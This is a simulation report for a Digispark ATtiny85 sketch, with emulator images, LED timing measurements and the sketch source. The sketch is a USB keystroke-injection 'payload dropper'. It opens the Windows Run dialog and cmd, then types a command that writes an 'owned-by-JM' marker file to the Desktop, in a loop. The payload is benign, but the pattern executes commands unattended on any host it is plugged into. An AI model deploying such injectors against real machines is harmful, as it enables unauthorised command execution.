
Simulated run of this sketch. Board: ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 125.3 s:

Timing chart, 0 to 126.8 s (numbered marks = the images above):


The sketch:

digispark-filedropper.ino
```cpp
#include "DigiKeyboard.h"
void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}
void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(3000);
  DigiKeyboard.println("cmd /k cd %UserProfile%/Desktop");
  DigiKeyboard.delay(3000);
  DigiKeyboard.println("echo owned-by-JM >> owned.txt"); //Payload Dropper
  DigiKeyboard.delay(3000);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(3000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 15.1 s, → LOW 90.0 s later, → HIGH 20.1 s later
